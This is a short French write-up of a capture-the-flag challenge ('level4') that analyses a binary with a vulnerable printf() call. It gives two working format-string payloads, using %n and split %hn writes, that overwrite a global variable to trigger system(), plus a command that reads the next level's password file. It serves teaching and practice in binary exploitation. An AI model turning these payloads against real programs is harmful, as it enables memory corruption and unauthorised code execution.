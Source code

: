 # level4 - Format String Exploitation Avancée

## Analyse du Programme

**Structure**
- Fonction `n()` contenant une comparaison avec `0x1025544`
- Variable à modifier à l'adresse `0x8049810`
- Appel à `printf()` vulnérable dans la fonction `p()`

**Points d'Intérêt**
- Valeur cible: `0x1025544` (16930116 en décimal)
- Comparaison critique: `cmp $0x1025544,%eax`
- Exécution de `system()` si la comparaison réussit

## Méthodes d'Exploitation

**Approche Simple**
```bash
(python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' ; cat) | ./level4
```

**Approche Optimisée**
```bash
(python -c 'print "\x12\x98\x04\x08" + "\x10\x98\x04\x08" + "%250d" + "%12$hn" + "%21570d" + "%13$hn"'; cat) | ./level4
```

L'approche optimisée:
1. Écrit `0x5544` à l'adresse `0x8049810`
2. Écrit `0x0102` à l'adresse `0x8049812`
3. Utilise `%hn` pour écrire 2 bytes à la fois

**Obtention du Flag**
```bash
cat /home/user/level5/.pass
```

Cette exploitation modifie la valeur en mémoire pour déclencher l'appel à `system()`.
